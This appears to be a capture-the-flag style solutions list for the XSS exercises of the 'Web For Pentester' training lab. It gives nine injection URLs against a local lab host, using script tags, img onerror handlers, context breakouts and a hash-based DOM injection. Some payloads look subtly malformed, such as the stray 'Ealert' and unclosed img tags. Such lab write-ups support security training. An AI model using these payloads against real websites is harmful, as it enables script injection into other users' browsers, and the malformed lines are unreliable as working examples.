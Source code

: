 # Web For Pentester

## XSS

### Example 1

**Solution**

- http://192.168.1.15/xss/example1.php?name=<script>alert(1)</script>

### Example 2

**Solution**

- http://192.168.1.15/xss/example2.php?name=<ScRipt>Ealert(1)</ScRipt>

### Example 3

**Solution**

- http://192.168.1.15/xss/example3.php?name=<img src=x onerror=alert(1)

### Example 4

**Solution**

- http://192.168.1.15/xss/example4.php?name=<img src=x onerror=alert(1)

### Example 5

**Solution**

- http://192.168.1.15/xss/example5.php?name=<img src=x onerror=prompt(1)>

### Example 6

**Solution**

- http://192.168.1.15/xss/example6.php?name=</script><script>alert(1)</script>

### Example 7

**Solution**

- http://192.168.1.15/xss/example7.php?name=';alert(1);'

### Example 8

**Solution**

- http://192.168.1.15/xss/example8.php/"><script>alert(1)</script>

### Example 9

**Solution**

- http://192.168.1.15/xss/example9.php#<script>alert(1)</script>
- document.write(location.hash.substring(alert(1))) (in the JS console)
